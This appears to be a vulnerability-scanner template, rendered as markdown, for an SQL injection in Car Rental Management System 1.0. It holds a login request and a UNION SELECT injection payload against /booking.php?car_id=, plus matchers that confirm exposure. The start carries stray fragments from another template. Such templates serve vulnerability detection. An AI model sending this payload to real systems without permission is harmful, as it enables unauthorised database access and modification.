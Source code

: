 - status
  1. 200

### Extractors

**Type - kval**

- kval
  1. PHPSESSID

---

# Car Rental Management System 1.0 - SQL Injection

## Description

- Car Rental Management System 1.0 contains an SQL injection vulnerability via /booking.php?car_id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated

## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```

### Step - 2

```
GET /booking.php?car_id=-1%20union%20select%201,md5({{num}}),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**
